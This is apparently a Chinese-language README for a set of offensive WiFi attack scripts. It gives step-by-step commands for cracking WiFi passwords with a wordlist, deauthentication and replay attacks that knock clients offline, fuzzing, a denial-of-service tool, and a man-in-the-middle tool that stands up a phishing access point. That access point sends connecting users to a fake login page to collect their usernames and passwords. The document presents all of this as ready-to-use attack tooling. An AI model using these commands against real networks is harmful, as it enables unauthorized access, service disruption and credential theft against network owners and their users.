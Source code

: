 ## V2.0
### wifi_password_crack.py

使用python3 wifi_password_crack.py

另起一个终端执行:

`curl -d '{"bssid":"AP_bssid","dssid":"client_bssid","device":"wlan0"}' -H "Content-Type: application/json" -X POST 127.0.0.1:10001/start`

静待60秒喝口咖啡大概率会出

### wifi_fuzz.py

使用python3 wifi_fuzz.py

`curl -d '{"ssid":"AP_ssid","device":"wlan0"}' -H "Content-Type: application/json" -X POST 127.0.0.1:10002/start`

### wifi_mimt.py

`curl -d '{"ssid":"eval","device":"wlan0"}' -H "Content-Type: application/json" -X POST 127.0.0.1:10003/start`


### wifi_ddos.py

`curl -d '{"ssid":"AP_ssid","device":"wlan0"}' -H "Content-Type: application/json" -X POST 127.0.0.1:10004/start`


## V1.0
### wifi.py

-device 指定网卡设备,若不指定此项则会使用wlan0
-bssid 必选项 若不指定无法正常工作
-w 指定字典 若不填则默认/usr/wordlist/rockyou.txt
-dssid 若使用a模式 则需要设置为被攻击设备的bssid

-mode 指定攻击模式,若不指定则默认使用s
	s 扫描模式 若指定-bssid则监听指定设备,若不指定则会进行全信道的扫描
	a 重放攻击,需要使用-dssid指定被攻击的设备
	c 破解模式,可使用-w来指定字典

python wifi.py 
进入扫描模式

python wifi.py -bssid [bssid]
监听此bssid的设备

python wifi.py -mdoe a -bssid [bssid] -dssid [dssid]
进行重放攻击 ,使设备强制离线重连(使用此选项时应该另开一个新终端以保证能一直进行抓包)

python wifi.py -mode c -w [passwordlist]
对wifi密码进行破解,-w选项可进行选填

-----

### wifi_MITM.py
使用此工具前应当先安装wifipumpkin3并确认能正常运行

-i 指定监听的网卡设备,若不指定则默认为wlan0
-ssid 必填项,指定要伪装的ssid
-p 代理模式
	0 无代理模式
	1 在 TCP 协议上拦截网络流量的代理
	2 允许阻止用户访问互联网，直到打开登录页面输入用户名和密码

sudo wifi_MITM.py -ssid [ssid]
此选项会根据指定的ssid名称来生成一个钓鱼wifi

sudo wifi_MITM.py -ssid [ssid] -p 2
此选项会根据指定的ssid名称来生成一个钓鱼wifi,用户连接后将会跳转至登录界面并要求输入账户名和密码

